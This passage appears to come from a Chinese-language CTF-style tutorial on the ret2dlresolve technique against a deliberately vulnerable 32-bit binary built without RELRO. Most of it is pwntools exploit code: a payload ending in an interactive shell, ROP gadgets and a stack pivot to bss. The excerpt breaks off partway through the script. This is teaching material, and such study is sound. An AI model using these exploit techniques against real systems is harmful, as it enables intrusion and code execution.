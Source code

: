 ```python
payload2 += b'A' * (80 - len(payload2))
payload2 += cmd + b'\x00'
payload2 += b'A' * (100 - len(payload2))

p.sendline(payload2)
p.interactive()
```



### No RELRO 利用思路

```bash
gcc -m32 -o bof -fno-stack-protector -z norelro -no-pie bof.c
```

在 No RELRO 情况下，由于 .dynamic 表可写，只需将 .dynstr 段伪造到 bss 段上，再把伪造 .dynstr 的地址填到 .dynamic 表中即可。

![image-20221103014231050](https://up-wind.github.io/assets/2022-10-24-ret2dlresolve/image-20221103014231050.png)

第一次 read，把栈迁移到 bss 段上，调用第二次 read。

```python
#!/bin/python3
from pwn import *

elf = ELF('./bof')
offset = 0x6c+4
read_plt = elf.plt['read']

# 0x08049301 : pop esi ; pop edi ; pop ebp ; ret
ppp_ret = 0x08049301
pop_ebp_ret = 0x08049303
leave_ret = 0x08049115

stack_size = 0x800
bss_addr = 0x0804B2B4
base_stage = bss_addr + stack_size

p = process('./bof')
p.recvuntil('\n')

payload  = b'a'*offset
payload += p32(read_plt)       # 第二次 read(0, base_stage, 0x100)
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(0x100)
payload += p32(pop_ebp_ret)    # 栈迁移
payload += p32(base_stage)
payload += p32(leave_ret)

p.sendline(payload)
···
```
